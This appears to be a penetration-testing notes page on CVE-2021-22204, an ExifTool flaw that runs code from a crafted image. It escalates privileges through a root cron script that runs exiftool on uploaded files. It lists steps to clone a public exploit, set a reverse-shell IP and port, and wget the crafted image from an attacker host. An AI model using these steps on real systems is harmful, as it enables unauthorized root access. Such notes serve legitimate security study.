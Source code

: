 ```yaml
---
description: Exiftool 7.44< <12.24 Priv Esc
---
```


# Exiftool

[https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

CVE-2021-22204 can be triggered with a perfectly valid image (jpg, tiff, mp4 and many more) leading to arbitrary code execution!

Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image.

```
cat /etc/crontab
* *     * * *   root    bash /opt/image-exif.sh

www-data@test:/tmp$ cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/test/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

\*\*exiftool \*\*"$IMAGES/$filename" >> $LOGFILE

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

```
$ sudo apt install djvulibre-bin exiftool
(Change the IP and Port in the exploit.py file for reverse shell.)

$ git clone https://github.com/convisolabs/CVE-2021-22204-exiftool.git
$ cd CVE-2021-22204-exiftool
$ python3 exploit.py

wget http://192.168.1.1/image.jpg
```
